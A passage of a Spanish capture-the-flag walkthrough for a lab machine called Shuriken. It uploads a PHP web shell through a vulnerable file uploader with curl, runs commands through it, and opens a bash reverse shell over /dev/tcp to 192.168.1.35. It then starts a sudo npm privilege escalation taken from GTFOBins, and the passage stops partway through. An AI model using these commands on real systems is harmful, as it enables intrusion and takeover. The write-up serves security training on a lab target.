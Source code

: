- Con todo esto, en el mismo directorio donde creamos el archivo php hacemos la petición con curl para subir este archivo aprovechando la vulnerabilidad que habíamos encontrado:


```bash
$curl -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw==" -F "file=@pwned.php" -F "plupload=1" -F "name=anyname.php" "http://broadcast.shuriken.local/actions/beats_uploader.php"
```

```js
creating file{"success":"yes","file_name":"167881087548cc5d","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```


- Como vemos, el archivo se subió correctamente con el nombre "167881087548cc5d.php" en el directorio "CB_BEATS_UPLOAD_DIR", así que accedemos a este para comprobar que podamos ejecutar comandos:


```
http://broadcast.shuriken.local/actions/CB_BEATS_UPLOAD_DIR/167881087548cc5d.php?cmd=whoami
```

- Confirmamos el `RCE` y ahora simplemente entablamos una reverse shell:

```
http://broadcast.shuriken.local/actions/CB_BEATS_UPLOAD_DIR/167881087548cc5d.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.35/443 0>%261"
```

- Habremos accedido al sistema como el usuario `"www-data"`


<br><br>
# ESCALANDO PRIVILEGIOS:

- Si vemos permisos de `sudoers` podemos encontrar lo siguiente:

```js
User www-data may run the following commands on shuriken:
    (server-management) NOPASSWD: /usr/bin/npm
```
- Es decir, podemos ejecutar el binario `"npm"` como el usuario "server-management" sin contraseña; buscamos en `gtfobins` una forma de escalar privilegios usando dicho binario y encontramos esto [npm | GTFOBins](https://gtfobins.github.io/gtfobins/npm/#sudo)

- Ejecutamos los comandos:

```bash
$TF=$(mktemp -d)
$echo '{"scripts": {"preinstall": "/bin/bash"}}' > $TF/package.json
```

- Le damos permisos a la ruta en la que se ejecuta la variable que hemos accedido para que cualquier usuario pueda acceder a esta:

```
$echo $TF
```

```js
/tmp/tmp.qx2ih7BUEK
```
